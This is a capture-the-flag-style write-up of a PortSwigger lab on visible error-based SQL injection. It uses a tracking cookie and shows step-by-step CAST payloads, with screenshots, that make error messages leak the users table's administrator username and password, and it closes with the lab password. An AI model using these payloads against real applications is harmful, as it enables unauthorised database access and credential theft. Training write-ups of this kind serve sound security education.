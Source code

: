 [Source](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)
## Task
This lab has a SQL injection vulnerability. The application uses tracking cookies for analytics and executes a SQL query containing the value of the sent cookie. No results are returned from the SQL query.

There is another table in the database called `users` containing `username` and `password` columns. To solve this task, we must find a way to leak the password of the `administrator` user and log into his account.
## Solution
Go to the website page

![image](images/20241222190633.png)

Refresh the page, intercept the request via `Burp Suite` and send it to `Repeater`

![image](images/20241222190742.png)

Add the `'` sign to `TrackingId` and send the request. We see an error
```ERROR
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '9P3Sf8MjAMamuhn1''. Expected char
```

![image](images/20241222190848.png)

It is clear that in this case we enter a string with one quote inside the `WHERE` operator. This makes it easier to create a valid query containing a malicious payload. If you comment out the rest of the query, the extra single quote will not break the syntax.
```Request
TrackingId=9P3Sf8MjAMamuhn1'--
```

![image](images/20241222191305.png)

There is no more error. Let's create another SQL query
```SQL
' AND CAST((SELECT 1) AS int)--
```
We send it and see a different error
```ERROR
ERROR: argument of AND must be type boolean, not type integer. Position: 63
```

![image](images/20241222191508.png)

Let's change the query so that this error does not occur
```SQL
' AND 1=CAST((SELECT 1) AS int)--
```

![image](images/20241222191613.png)

We have verified that this query works. Now let's try to pull `username` from the `users` table
```SQL
' AND 1=CAST((SELECT username FROM users) AS int)--
```

![image](images/20241222191850.png)

We get another error
```ERROR
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '9P3Sf8MjAMamuhn1' AND 1=CAST((SELECT username FROM users) AS'. Expected char
```
This happens because we exceeded the character limit in the query. To bypass it, we delete the entire `TrackerId`

![image](images/20241222192110.png)

A new error
```ERROR
ERROR: more than one row returned by a subquery used as an expression
```
The query turned out to be correct and we guessed that there is a `users` table and a `username` column in it. The error is thrown by the database itself, since it unexpectedly returned more than one row. Let's tweak the query a little:
```SQL
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

![image](images/20241222192445.png)

A new error has appeared. But note that this error shows the administrator's `username`.
``ERROR
ERROR: invalid input syntax for type integer: "administrator"
```
Since we know that `administrator` is the first in the `users` table, we will output his password.
```SQL
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

![image](images/20241222192647.png)

Administrator password:
```Password
qbcneltqjs6bnijkbwgf
```

![image](images/20241222192736.png)


![image](images/20241222192750.png)
